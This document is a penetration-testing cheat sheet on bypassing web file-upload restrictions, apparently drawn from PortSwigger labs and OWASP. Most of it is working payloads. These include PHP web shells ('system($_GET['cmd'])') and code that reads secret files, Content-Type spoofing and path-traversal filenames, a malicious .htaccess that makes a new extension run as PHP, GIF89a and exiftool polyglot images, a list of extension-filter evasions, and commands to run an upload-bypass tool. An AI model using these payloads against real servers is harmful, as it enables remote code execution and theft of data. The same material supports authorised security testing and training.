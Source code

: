 # 🗃 File Upload Bypass

{% embed url="https://portswigger.net/web-security/file-upload" %}
Source
{% endembed %}

![File Upload Bypass Technique](<../../../.gitbook/assets/image (41).png>)

### Web shell Upload via **Content-Type restriction** Bypass

When uploading a .php file;

```bash
# Change :
# Content-Type: application/x-php
# to
# Content-Type: image/jpeg
```

### Web shell upload via path traversal

When uploading a php file; You can upload the file to a different directory with lesser controls (a different directory that's not supposed to contain user-supplied files)

```bash
# Change :
# Content-Disposition: form-data; name="avatar"; filename="secrets.php"
# to
# Content-Disposition: form-data; name="avatar"; filename="../secrets.php"

# You can encode "../" as :
    %2e%2e%2f
    %252e%252e%252f
    ..%c0%af
    ..%ef%bc%8f
# Then access the file with LFI :
# GET /files/avatars/../secrets.php
```

### Overriding the server configuration

Before uploading a php file;

* Servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings.
* Apache servers, for example, will load a directory-specific configuration from a file called **.htaccess** if one is present.

```php
# First, upload a malicious .htaccess :
# Content-Disposition: form-data; name="avatar"; filename=".htaccess"
# Content-Type: text/plain

# AddType application/x-httpd-php .l33t

# Then upload the php file with .l33t extention
# Content-Disposition: form-data; name="avatar"; filename="secrets.l33t"
# Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
# or
<?php system($_GET['cmd']); ?>
```

### Web Shell Upload Bypasses Techniques List

**According to OWASP the following list can be used by penetration testers in order to bypass a variety of protections :**

* Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: **exploit%2Ephp**
* Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like **xC0 x2E, xC4 xAE or xC0 xAE** may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
* **Content-Type** —> Change the parameter in the request header using Burp, ZAP etc.
* Put **server executable extensions :** **.php5**, **.shtml**, **.asa**, **.cert**
* Changing letters to **capital** form : **.aSp**, **.PHp3**
* Using **trailing** **spaces** and/or **dots** at the end of the filename like **.asp.. . .... ...** , **.asp** , **.asp.**
* Use of **semicolon** after the forbidden extension and before the permitted extension : **.asp;.jpg** (_Only in IIS 6 or prior_)
* Upload a file with **2 extensions** —> **file.php.jpg**
* Use of **null** **character**—> **file.asp%00.jpg**
* Create a file with a **forbidden** **extension** —> **file.asp:.jpg** or **file.asp::$data**
* <mark style="color:red;">**ALSO : Combination of the above**</mark>

### Remote Code Execution via Polyglot web shell upload

In order to upload a php file where the file verification is done on the server side (checking if it is really a IMAGE file), we can **disguise a php file** **as an image file.**

When uploading a php file :

```php
# You can add :
GIF89a; // at the beginning of the php file or in the burp request

# Burp request
# Content-Disposition: form-data; name="avatar"; filename="secrets.php"
# Content-Type: application/x-php

# GIF89a at the beginning of the php command
GIF89a;<?php echo file_get_contents('/home/carlos/secret'); ?>
# OR
GIF89a;<?php system($_GET['cmd']); ?>
```

![PHP file disguised as an GIF file](<../../../.gitbook/assets/image (6) (1) (1).png>)

or, Generate a polyglot payload using **exiftool :**

```bash
# example 1
exiftool -Comment="<?php echo 'START ' . 
file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

# example 2
exiftool -Comment="<?php echo 'START ' . 
system($_GET['cmd']); . ' END'; ?>" $input.jpg -o polyglot.php
```

## upload\_bypass

> File upload restrictions bypass by using different bug bounty techniques! Tool must be running with all its assets!

{% embed url="https://github.com/sAjibuu/upload_bypass" %}

### Install

```bash
git clone https://github.com/sAjibuu/upload_bypass.git
cd upload_bypass/
pip3 install -r requirements.txt

python3 ext_bypass.py -u $url -e $extension-file -a $allowed-extension -s $success-msg --location $path-of-uploaded-file
```

### PoC

{% embed url="https://www.youtube.com/watch?v=quFoDysbDto" %}
